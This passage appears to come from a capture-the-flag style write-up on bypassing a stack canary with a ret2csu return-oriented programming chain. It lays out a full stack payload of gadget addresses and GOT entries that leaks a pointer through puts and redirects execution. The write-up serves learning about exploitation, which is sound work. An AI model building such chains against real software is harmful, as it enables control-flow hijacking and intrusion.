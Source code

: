 Lets understand the dependencies first

1. rdi <= edi <= r15, therefore we need to set the r15 register
2. `0x00000000004008e9 <+73>:    call   QWORD PTR [r12+rbx*8]`, if we control r12 and rbx then we can jump into our desired address.
  - If we can set rbx=0 then jump only depends on r12.
3. In `0x4008f4` there is a `jne` insturction that depends on the value of rbx and rbp.

![csu_gadget_plan](assets/2019-07-16-canary_bypass.assets/csu_gadget_plan.png)

We can start at `0x00000000004008fa` but before that we need set up the stack in the following way

```text
0x4141414141414141 => AAAAAAAA
0x4141414141414141 => AAAAAAAA
0x4141414141414141 => AAAAAAAA
0x000000000060101f =>  heap_ptr -> put@got last byte
0x00000000004008FA => csu gadget
0x0000000000000000 => pop rbx # set rbx 0
0x0000000000000001 => pop rbp # set rbp 1 bypass jne
0x0000000000601018 => pop r12 # set r12 puts@GOT
0x0000000000000002 => pop r13 # set r13 any value
0x0000000000000002 => pop r14 # set r14 any value
0x0000000000601038 => pop r15 # set r15 malloc@GOT -> set the value to rdi
0x00000000004008E6 => retn # overwrite with second csu gadget -> mov  edi,r15d
0x0000000000000002 => set any value to accommodate 0x4008f6: add    rsp, 8
0x0000000000000002 => set any value to accommodate pop rbx
0x0000000000000002 => set any value to accommodate pop rbp
0x0000000000000002 => set any value to accommodate pop r12
0x0000000000000002 => set any value to accommodate pop r13
0x0000000000000002 => set any value to accommodate pop r14
0x0000000000000002 => set any value to accommodate pop r16
p64(0xdeadbeef) => retn # control eip
```
